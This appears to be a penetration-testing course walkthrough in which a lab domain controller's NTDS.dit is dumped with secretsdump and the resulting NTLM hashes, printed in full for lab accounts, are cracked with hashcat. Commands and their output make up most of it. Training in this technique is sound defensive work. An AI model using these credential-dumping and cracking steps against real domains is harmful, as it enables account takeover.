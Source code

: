 # I. Dumping the NTDS.dit

The NITDS.dit is a databes used to store AD data. This includes:

- User Information
- Group Information
- Security Descriptors
- Password Hashes

We can simply use secretsdump against the DC to perform this attack.

On the Kali box, let’s use secretsdump together with the new user created in the token impersonation attack.

`secretsdump.py <DOMAIN>/user:'password'@<DC-IP>`

This will dump a lot of useful information, including SAM hashes.

```bash
┌──(kali㉿kali)-[~]
└─$ secretsdump.py ONEPIECE.local/brook:'Password1@'@10.0.2.8
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0xd37585e1bfc2f539e963038b37cc0bb7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

The information we’re looking for though is the NTDS.dit secrets.

We can dump just the NTDS.dit with `secretsdump.py <DOMAIN>/user:'password'@<DC-IP> -just-dc-ntlm`:

```bash
──(kali㉿kali)-[~]
└─$ secretsdump.py ONEPIECE.local/brook:'Password1@'@10.0.2.8 -just-dc-ntlm
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f8bf37c04c80ab31f2e62a0a386e48c:::
ONEPIECE.local\M.D.Luffy:1103:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
ONEPIECE.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
ONEPIECE.local\R.Zoro:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
ONEPIECE.local\Franky:1115:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
ONEPIECE.local\Usopp:1116:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
BxSerFwpoA:1119:aad3b435b51404eeaad3b435b51404ee:d1de872b5aad73477fe42f7af8a42d78:::
fRGOqlTyCl:1120:aad3b435b51404eeaad3b435b51404ee:2959218c8910e1e1b523f0789b544a89:::
brook:1121:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
STRAWHATS-PC$:1000:aad3b435b51404eeaad3b435b51404ee:86d1ca7ab6cd58c374a3517196909e57:::
FRANKY$:1117:aad3b435b51404eeaad3b435b51404ee:ba1fd33af3188537378b74bc188a10f5:::
USOPP$:1118:aad3b435b51404eeaad3b435b51404ee:2800be0cc3c8d966b84641a6730eb0f3:::

```

Next, the most important user we want to crack is the Administrator:

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::

```

To do this, all we need is the NT part (second half) of the hash.

Before that, there’s a neat trick to order the NTDS.dit secrets by copying them, opening Excel, pasting them in the spreadsheet > `Data` > `Text to Columns` > `Delimited` > `Next` > `Select Other` > `Type : in the text box` > `Next` > `Finish`.

![excel_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/4aa413e4-5ca5-4d9d-a177-24a26b5b4c6f)

![excel_2](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/50805def-9bd4-46ab-93d0-063afc0167a5)

![excel_3](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/8d64b9e6-9c57-4e79-81c0-bb3386828416)

![excel_4](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/b65c354f-4bb9-448f-8187-57f2edbd0945)


Everything is nicely ordered.

Put the second half of the hashes in a text file `ntds.txt`.

Finally use hashcat to crack the hashes.

 `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`

![ntds1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/8d2b3e2f-9e4d-46e8-b5a1-ff735f44c8a4)
